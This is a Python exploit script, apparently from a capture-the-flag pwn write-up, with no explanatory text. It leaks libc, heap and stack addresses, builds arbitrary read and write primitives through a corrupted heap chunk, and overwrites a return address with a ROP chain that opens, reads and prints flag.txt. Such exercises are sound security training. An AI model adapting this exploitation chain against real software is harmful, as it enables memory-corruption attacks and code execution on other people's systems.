 ```python
libc = int(b''.join(r.recvline()[:-1].split(b' ')[1:7][::-1]), 16) - 0x1f4c41
unsortedbin = libc + 0x1f4cc0
__environ = libc + 2084544
info(f"libc: {hex(libc)}")

free(2)
free(1)
create(3, 0x28, 'flag.txt\x00')
create(4, 0x18, 'A') # str of 4 is 2

def aar(addr):
    write(4, p64(0x8) + p64(addr))
    read(2)
    r.recvline()
    return int(b''.join(r.recvline()[:-1].split(b' ')[::-1]), 16)

def aaw(addr, data):
    write(4, p64(len(data)) + p64(addr))
    write(2, data)

heap = aar(unsortedbin) - 0x1b80
flag_addr = heap + 7008
info(f"heap: {hex(heap)}")
stack = aar(__environ)
ret_addr = stack - 320
info(f"stack: {hex(stack)}")

rop_pop_rdi_ret = libc + 0x2d7dd
rop_pop_rsi_ret = libc + 0x2eef9
rop_pop_rdx_ret = libc + 0xd9c2d
libc_read = libc + 0xfdc80
libc_open = libc + 0xfd990
libc_write = libc + 0xfdd20
rop = flat(
   rop_pop_rdi_ret, flag_addr,
   rop_pop_rsi_ret, 0,
   rop_pop_rdx_ret, 0,
   libc_open,

   rop_pop_rdi_ret, 3,
   rop_pop_rsi_ret, flag_addr,
   rop_pop_rdx_ret, 0x60,
   libc_read,

   rop_pop_rdi_ret, 1,
   libc_write,
)
aaw(ret_addr, rop)
r.sendlineafter('enter your command: ', 'E')
r.sendlineafter('enter your index: ', str(0))
r.interactive()
```
